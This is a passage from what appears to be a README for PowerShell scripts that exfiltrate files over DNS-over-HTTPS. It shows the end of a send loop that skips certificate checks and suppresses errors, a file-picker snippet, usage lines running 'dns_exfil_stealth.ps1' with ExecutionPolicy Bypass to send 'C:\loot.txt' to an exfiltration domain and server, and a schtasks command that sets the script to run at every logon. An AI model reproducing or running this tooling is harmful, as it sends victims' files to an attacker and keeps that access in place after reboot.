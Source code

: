 ```powershell
    try {
        Invoke-RestMethod -Uri $DoHServer -Method Post -Body $DnsPacket -ContentType "application/dns-message" -SkipCertificateCheck | Out-Null
    } catch { }
    $Index++
}
```

---

# 🖱️ BONUS: GUI File Picker

Insert this line at the top of any of the scripts to prompt the user for a file:

```powershell
Add-Type -AssemblyName System.Windows.Forms
$FileDialog = New-Object System.Windows.Forms.OpenFileDialog
$null = $FileDialog.ShowDialog()
$File = $FileDialog.FileName
```

---

# 📌 Usage Examples

Run any script like this:

```powershell
powershell -ExecutionPolicy Bypass -File dns_exfil_stealth.ps1 -File "C:\loot.txt" -Domain "exfil.lab" -DnsServer "10.0.0.5"
```

Or with GUI picker:

```powershell
powershell -ExecutionPolicy Bypass -File dns_exfil_stealth.ps1
```

---

# 🛡️ Persistence Option via `schtasks`

```powershell
schtasks /Create /SC ONLOGON /TN "DNSExfil" /TR "powershell -ExecutionPolicy Bypass -File C:\path\to\dns_exfil_stealth.ps1" /F
```

> This creates a task that runs on user login.

---





